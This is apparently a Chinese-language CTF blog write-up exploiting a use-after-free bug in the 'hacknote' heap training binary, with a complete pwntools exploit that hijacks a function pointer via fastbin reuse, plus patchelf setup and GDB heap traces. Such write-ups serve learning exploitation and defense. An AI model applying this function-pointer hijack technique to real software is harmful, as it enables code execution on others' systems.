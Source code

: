 ```yaml
---
title: 「PWN」堆的第一次尝试 - UseAfterFree
date: 2022-06-30
tags: ['CTF', 'Pwn', ]
authors: [nova]
categories: ['CTF']
---
```


磨磨蹭蹭这么久也总算是入HEAP的坑了

感谢Ayoung不开之恩（bushi）



先来看一下最简单的`Use After Free`利用，对堆的知识需求很低。明天估计会写一个`Double Free + Unlink`的

用的是`CTF-WIKI`的原题[hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote)

<!--truncate-->

# Pwntools使用不同的`libc`作为动态解释器的方法

这里提一下中途遇到的坑。`libc-2.31`对堆的回收机制有了不少改变，因此在一开始根据`CTF-WIKI`的方法调试的时候行不通。因此写一下更换动态解释器的方法。

首先需要两个工具，[glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one)和[patchelf](https://github.com/NixOS/patchelf)

安装方法自行查看`README.md`不多赘述



下载对应的`libc`后，使用`patchelf`对`ELF`文件进行解释

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## 

# Use After Free

引起这个漏洞的原因主要是`dangling pointer` —— 在`free()`后内存指针没有被设置为NULL。

如果此时其他代码修改了这段内存的内容的话，再次使用这段内存就会出现问题。

##  Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free 
# Make
```

保护全关、64位

![struct_note](https://cdn.novanoir.moe/img/image-20220314214330300.png)

程序定义了一个结构体，定义了一个`printnote`的指针指向`print_note_content`方法以及一个`content`的指针。

![add_note()](https://cdn.novanoir.moe/img/image-20220314214555940.png)

看一下`add_note()`的实现：首先`malloc`了一个`struct note`，也就是16字节的堆。在这之后，为`content`申请了`size`字节的堆。

![del_note()](https://cdn.novanoir.moe/img/image-20220314214818884.png)

注意看`del_note()`。在删除节点后，`count`没有变化——这一方面限制了我们`add_note()`的次数，另一方面也给我们的漏洞利用提供了便利。同时，我们可以发现`free`之后`notelist[idx]`并没有置为`NULL`，这便给我们的`Use After Free`带来了可能。

![print_note()](https://cdn.novanoir.moe/img/image-20220314215110776.png)

可以看出，`print_note()`调用了`notelist[idx]->printnote(notelist[idx])`方法，假如我们能把`notelist[idx]->printnote`的内存修改了的话，也就能做到执行后门函数的效果了。



## Exploit

因为`struct note`是固定`0x20`大小的`chunk`，所以我们主要思考`fastbins`相关的利用

因为`fastbins`维护了`0x20~0x80`的数个链表，且有后进先出的机制。我们不妨这样思考：

倘若我们申请两个`0x20`的note记为`note1`、`note2`，此时我们的程序应该有4个堆——两个大小为`0x20`的`note1_struct_note`和`note2_struct_note`以及两个大小为`0x30`的`note1`和`note2`（不计算`PREV_IN_USE`的一字节）

这时我们将两个note全部释放，则`fastbisn`中此时应该是这样的

```sh
fastbins:
	0x20: note2_struct_note_addr -> note1_struct_note_addr
	0x30: note2 -> note1
```

如果我们此时再申请一个`0x10`的note`note3`呢？由`fastbins`的回收利用机制我们可以想到

第一个`note2_struct_note_addr`被分配给了`note3_struct_note_addr`，而第二个`note1_struct_note_addr`则被分配给了我们可控的`note3`

这时，如果我们将`note3`的`content`改为后门函数，并执行`print_note(0)`

——如你所料的，后门函数被执行了。



```python
from pwn import *

sh = process(["./use_after_free"])


def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)


def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```





## GDB

以上只是理论知识，没有`GDB`实际调过确实是一知半解。

根据上面的exp，我们分别在第二个`add_note()`和第二个`delete_note()`以及最后一个`add_note()`下调试看看

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221552787.png)

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221633396.png)

`0x401256`是`print_note_content()`的地址，`0xd04030`和`0xd04080`是`content`的地址

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221804318.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221824810.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221944311.png)

可以看出，不同大小的链表进入了不同的`fastbins`中。



![heap final](https://cdn.novanoir.moe/img/image-20220314222135890.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222201810.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222221269.png)

最后一次添加之后，我们发现：`fastbins`中的两个`0x20`大小的堆被回收利用了！且作为`content`的`0x4015f9`的后门函数地址已经写到了一开始`print_note_content()`的地方



此时运行`print_note()`，后门函数便执行了

![Shell!](https://cdn.novanoir.moe/img/image-20220314222613059.png)

